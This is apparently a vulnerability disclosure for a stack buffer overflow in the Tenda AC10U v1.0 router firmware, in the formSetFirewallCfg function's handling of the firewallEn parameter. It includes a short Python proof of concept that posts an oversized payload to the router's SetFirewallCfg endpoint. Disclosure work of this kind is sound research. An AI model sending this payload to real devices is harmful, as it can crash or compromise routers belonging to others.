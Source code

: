 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.49 firmware has a stack overflow vulnerability in the `formSetFirewallCfg` function. The `firewall_value` variable receives the `firewallEn` parameter from a POST request and is later assigned to the `firewall_buf` variable, which is fixed at 8 bytes. However, since the user can control the input of  `firewallEn`, the statement `strcpy(firewall_buf, firewall_value);` can cause a buffer overflow. The user-provided  `firewallEn` can exceed the capacity of the `firewall_buf` array, triggering this security vulnerability.

 ![image-20240313150902519](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313150902519.png)

![image-20240313150818108](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313150818108.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetFirewallCfg"
payload = b"a"*1000

data = {"firewallEn": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313151202672](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313151202672.png)
